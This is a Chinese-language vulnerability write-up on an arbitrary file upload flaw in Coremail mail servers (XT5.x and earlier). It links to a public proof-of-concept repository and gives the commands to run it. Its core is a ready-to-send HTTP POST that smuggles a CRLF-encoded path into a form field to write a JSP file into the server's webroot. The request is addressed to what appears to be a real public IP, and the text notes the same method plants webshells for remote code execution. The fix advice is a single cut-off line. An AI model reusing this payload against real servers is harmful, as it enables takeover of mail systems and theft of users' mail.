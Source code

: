 # Coremail文件上传漏洞POC - 钓鱼
漏洞信息
----

coremail产品诞生于1999年，经过二十多年发展，如今从亿万级别的运营系统，到几万人的大型企业，都有了Coremail的客户。截止2020年，Coremail邮件系统产品在国内已拥有10亿终端用户，是目前国内拥有邮箱使用用户最多的邮件系统。其特定版本范围内存在任意文件上传漏洞，攻击者可以上传webshell，从而造成远程代码执行。该漏洞为Nday，非hw期间漏洞。

漏洞危害:
-----

其特定版本范围内存在任意文件上传漏洞，攻击者可以上传webshell，从而造成远程代码执行。

影响范围:
-----

Coremail <= XT5.x

漏洞复现:
-----

使用网上流传POC 进行验证 `https://github.com/xiaoshu-bit/CoreMailUploadRce`

    pip3 install -r requirements.txt
    python3 coremail_upload.py -u http://127.0.0.1:1111

文件上传poc：

    POST /webinst/action.jsp HTTP/1.1
    Host: 120.136.129.10
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/32.0.1700.76 Safari/537.36
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 99
    Connection: close
    
    func=checkserver&webServerName=127.0.0.1:6132/%0d@/home/coremail/web/webapp/justtest.jsp%20JUSTTEST

文件内容上传，将会在/home/coremail/web/webapp/目录下上传一个justtest.jsp的文件

![image.png](Coremail%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9EPOC%20-%20%E9%92%93%E9%B1%BC/1618123234_607299e22c002b2107131.png!small)

成功上传。也可用于上传webshell文件。从而造成远程代码执行。

![image.png](Coremail%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9EPOC%20-%20%E9%92%93%E9%B1%BC/1618123242_607299ea6db16da257f0f.png!small)

修复方案:
-----

目前coremail官方已经发布了解决此漏洞的软件更新，建议受影响用户尽快升级到安全版本，